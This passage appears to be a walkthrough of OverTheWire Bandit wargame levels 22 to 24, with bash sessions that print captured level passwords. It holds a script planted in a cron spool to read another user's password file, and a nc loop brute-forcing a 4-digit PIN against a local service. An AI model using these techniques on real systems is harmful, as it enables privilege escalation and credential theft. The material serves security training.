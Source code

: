 ```bash
8ca319486bfbbc3663ea0fbe81326349
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

### lvl-23
A program is running automatically at regular intervals from cron, the
time-based job scheduler. Look in /etc/cron.d/ for the configuration and see
what command is being executed.

NOTE: Keep in mind that your shell script is removed once executed, so you may
want to keep a copy around…
```bash
$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done

# So we want a shell script that simply cats out bandit24's password

#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/sminez88_bandit24pass

# The cron runs at login so logout, log back in and cat the temp file:
$ cat /tmp/sminez88_bandit24pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### lvl-24
A daemon is listening on port 30002 and will give you the password for bandit25
if given the password for bandit24 and a secret numeric 4-digit pincode. There
is no way to retrieve the pincode except by going through all of the 10000
combinations, called brute-forcing.
```bash
touch /tmp/sminez88_bandit24_results
COUNT=0;
for pin in $(seq -f "%04g" 0 9999); do
  if [ $(($COUNT % 100)) -eq 0 ]; then
    echo "Up to $COUNT..."
  fi;
  COUNT=$(($COUNT+1));
  resp=$(echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin" | nc localhost 30002);
  echo "$pin: $resp" >> /tmp/sminez88_bandit24_results;
  echo "$pin: $resp";
  if [[ ! $resp =~ .*Wrong.* ]]; then
    if [[ ! $resp == "" ]]; then
      break;
    fi;
```